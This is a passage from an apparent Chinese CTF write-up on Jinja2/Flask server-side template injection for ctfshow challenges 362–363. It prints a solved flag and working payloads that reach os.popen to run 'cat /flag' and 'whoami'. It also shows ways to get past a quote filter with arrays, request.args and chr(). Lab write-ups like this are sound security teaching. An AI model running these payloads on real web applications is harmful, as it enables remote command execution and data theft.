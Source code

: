 ```
ctfshow{90be8203-4e24-458f-8fc9-14062aed72c8}
```

然后再看别的大佬写的wp的时候发现362和363可以用一个payload提交

```
Payload:?name={{lipsum.__globals__.__getitem__("os").popen("cat /flag").read()}}
```

### ctfshow web363

测试发现过滤了引号

如何绕过呢？下面来自[Python模板注入(SSTI)深入学习 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6885#toc-4)

* * *

#### 过滤引号

回顾我们上面的payload，哪里使用了引号？

![](https://xzfile.aliyuncs.com/media/upload/picture/20191207110222-fd656e82-189d-1.jpg)

接下来思考对应的解决办法，首先第一个引号的作用是什么，是为了引出基类，而任何数据结构都可以引出基类，所以这里可以直接使用数组代替，所以上述payload就变成了：

```
{{[].__class__.__mro__[1].__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}
```

在fuzz的时候我发现，数据结构可以被替换为数组、字典，以及`数字0`。

再看看后面的引号是用来干嘛的，首先看看. **init** .**globals**返回的是什么类型的数据:

![](https://xzfile.aliyuncs.com/media/upload/picture/20191207110223-fd8486c8-189d-1.jpg)

所以第一个引号就是获取字典内对应索引的value，这里我们可以使用request.args来绕过此处引号的过滤。

request.args是flask中一个存储着请求参数以及其值的字典，我们可以像这样来引用他：

![](https://xzfile.aliyuncs.com/media/upload/picture/20191207110223-fdd1a6e2-189d-1.jpg)

所以第二个引号的绕过方法即：

```
{{[].__class__.__mro__[1].__subclasses__()[300].__init__.__globals__[request.args.arg1]}}&arg1=os
```

后面的所有引号都可以使用该方法进行绕过。

还有另外一种绕过引号的办法，即通过python自带函数来绕过引号，这里使用的是chr()。

首先fuzz一下chr()函数在哪：

payload：

```
{{().__class__.__bases__[0].__subclasses__()[§0§].__init__.__globals__.__builtins__.chr}}
```
